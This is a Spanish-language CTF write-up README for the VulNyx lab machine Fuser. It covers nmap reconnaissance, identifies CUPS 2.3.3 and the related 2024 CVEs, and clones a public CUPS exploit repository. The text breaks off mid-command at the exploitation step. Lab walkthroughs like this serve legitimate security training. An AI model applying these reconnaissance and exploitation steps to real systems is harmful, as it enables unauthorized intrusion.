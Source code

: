 # 🔍 Write-Up: VulnHub Basic - FUSER

![image](https://github.com/user-attachments/assets/488b1a00-b823-422f-a13c-2bd8304711da)


Aquí tienes el archivo `README.md` para la máquina **Fuser** de VulNyx, basado en el writeup que proporcionaste. Este archivo está listo para copiar y pegar en tu repositorio de GitHub:

```markdown
# Máquina Fuser - VulNyx (Dificultad: Low)

## Descripción
Fuser es una máquina de la plataforma VulNyx con un nivel de dificultad **Low**. En este laboratorio, se explora una vulnerabilidad en el servicio **CUPS (Common UNIX Printing System)** y se realiza una escalada de privilegios aprovechando un binario con el bit SUID activado. El objetivo es obtener acceso root a la máquina y encontrar la flag.

## Resumen de conceptos trabajados
- Escaneo de puertos con Nmap.
- Explotación de una vulnerabilidad en CUPS (CVE-2024-47176).
- Escalada de privilegios mediante un binario SUID (Dash).

---

## Pasos para la resolución

### **1. Conexión y verificación**
- Descargar la máquina Fuser de VulNyx y configurarla en VirtualBox o VMware con **Red NAT**.
- Verificar la conexión con la máquina víctima:
  ```bash
  sudo arp-scan -I eth0 --localnet
  ping -c 1 10.0.2.5 -R
  ```
  El TTL de 64 indica que es una máquina Linux.

---

### **2. Escaneo de puertos**
- Realizar un escaneo de puertos con Nmap:
  ```bash
  sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.0.2.5 -oG Escaneo
  ```
  Se detectan los puertos **22 (SSH)**, **80 (HTTP)** y **631 (IPP/CUPS)** abiertos.

- Escanear versiones de los servicios:
  ```bash
  nmap -sCV -p22,80,631 10.0.2.5
  ```
  Se identifica que el servicio **CUPS** está en la versión **2.3.3op2**.

---

### **3. Análisis del servicio CUPS**
- Acceder al panel de CUPS desde el navegador:
  ```
  http://10.0.2.5:631
  ```
  Se observa un panel de gestión de impresoras.

- Investigar la sección `/printers`, donde se encuentra un nombre de usuario (**Konika Minolta**) y una lista de impresoras.

- Buscar vulnerabilidades en CUPS 2.3.3:
  ```bash
  searchsploit CUPS 2.3.3
  ```
  No se encuentran exploits públicos, pero se identifican CVEs relacionados:
  - **CVE-2024-47176**: Vulnerabilidad en `cups-browsed`.
  - **CVE-2024-47076**: Vulnerabilidad en `libcupsfilters`.
  - **CVE-2024-47175**: Vulnerabilidad en `libppd`.
  - **CVE-2024-47177**: Vulnerabilidad en `cups-filters`.

---

### **4. Explotación de CUPS**
- Clonar el repositorio del exploit de ippsec:
  ```bash
  git clone https://github.com/ippsec/cups-exploit.git
  cd cups-exploit
  ```
- Ejecutar el exploit:
  ```bash
  python3 exploit.py 10.

